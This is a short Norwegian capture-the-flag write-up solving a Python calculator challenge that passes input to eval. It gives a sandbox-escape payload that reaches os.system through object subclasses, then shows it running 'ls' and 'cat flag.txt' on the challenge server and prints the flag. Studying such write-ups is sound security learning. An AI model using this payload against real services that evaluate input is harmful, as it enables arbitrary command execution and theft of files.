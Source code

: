 Denne typen `eval`-oppgaver i Python har jeg vært borti før. Googlet litt og fant en payload her: https://netsec.expert/posts/breaking-python3-eval-protections/

Payload:
```python
[x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("echo pwned")
```

Testing:

```bash
$ nc ctf.uiactf.no 4003
Velkommen til min enkle kalkulator!
Skriv inn det du vil beregne etter '>' og du får et svar!
> math.pi
3.141592653589793
> math.sqrt(64)
8.0
> [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("echo pwned")
pwned
0
> [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("ls")
calculator.py
flag.txt
0
> [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("cat flag.txt")
UIACTF{eval er skumle saker!}
0
>
```

## Flagg

`UIACTF{eval er skumle saker!}`
